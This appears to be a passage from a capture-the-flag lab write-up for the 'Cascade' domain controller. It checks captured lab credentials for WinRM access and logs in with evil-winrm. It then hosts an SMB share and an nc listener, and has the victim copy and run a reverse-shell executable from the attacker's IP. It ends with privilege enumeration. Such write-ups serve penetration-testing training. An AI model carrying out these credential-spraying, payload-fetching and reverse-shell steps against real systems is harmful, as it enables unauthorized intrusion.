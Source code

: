 I never checked if `s.smith` had WinRM access, so checking now:

```sh
❯ cme winrm cascade -u s.smith -p sT333ve2
WINRM       cascade         5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)

# what about ArkSvc?
❯ cme winrm cascade -u 'ArkSvc' -p 'w3lc0meFr31nd'
WINRM       cascade         5985   CASC-DC1         [+] cascade.local\ArkSvc:w3lc0meFr31nd (Pwn3d!)
```

Nice, so we can use either of those to get a shell.

```sh
❯ evil-winrm -i cascade -u 'ArkSvc' -p 'w3lc0meFr31nd'
```

And we're in!


## privesc

First, upgrade the shell to a reverse shell:

```powershell
# on kali, host reverse shell over SMB
impacket-smbserver -smb2support -user derp -password herpderp share .

# start listener
rlwrap nc -lvnp 443

# on victim, download and execute
net use \\10.10.14.8 /user:x\derp herpderp
copy \\10.10.14.8\share\rsh.exe
.\rsh.exe
```

Now for basic enumeration:

```powershell
whoami /all
User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106
Group Name
===========================================
Everyone
BUILTIN\Users
BUILTIN\Pre-Windows 2000 Compatible Access
NT AUTHORITY\NETWORK
NT AUTHORITY\Authenticated Users
NT AUTHORITY\This Organization
CASCADE\Data Share
CASCADE\IT
CASCADE\AD Recycle Bin
CASCADE\Remote Management Users
NT AUTHORITY\NTLM Authentication
Mandatory Label\Medium Plus Mandatory Level

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


```
